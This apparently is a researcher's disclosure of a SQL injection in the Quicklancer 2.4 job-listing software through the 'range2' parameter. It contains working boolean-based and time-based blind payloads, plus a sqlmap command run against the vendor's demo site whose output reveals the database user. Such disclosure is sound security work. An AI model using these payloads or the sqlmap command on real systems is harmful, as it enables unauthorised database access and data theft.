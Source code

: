 # SQL Injection Vulnerability in Quicklancer 2.4
A SQL injection vulnerability exists in the Quicklancer 2.4, GET parameter 'range2', that has time-based blind SQL injection and a boolean-based blind SQL injection, which can be exploited remotely by unauthenticated attacker to execute arbitrary SQL queries in the database.

## POC

### Payloads:
```sh
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
```

### Sqlmap:
```sh
python sqlmap.py -u "https://quicklancer.bylancer.com/listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1&salary-type=1&sort=id&subcat=" -p range2 --dbms=mysql --current-db --current-user --batch

....
[13:41:41] [INFO] checking if the injection point on GET parameter 'range2' is a false positive
GET parameter 'range2' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
---
[13:41:48] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12
[13:41:56] [INFO] fetching current user
[13:41:56] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:41:56] [INFO] retrieved: quicklancer_dbuser@localhost
```


## Contact
For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## References

- https://bylancer.com/demo/quicklancer/

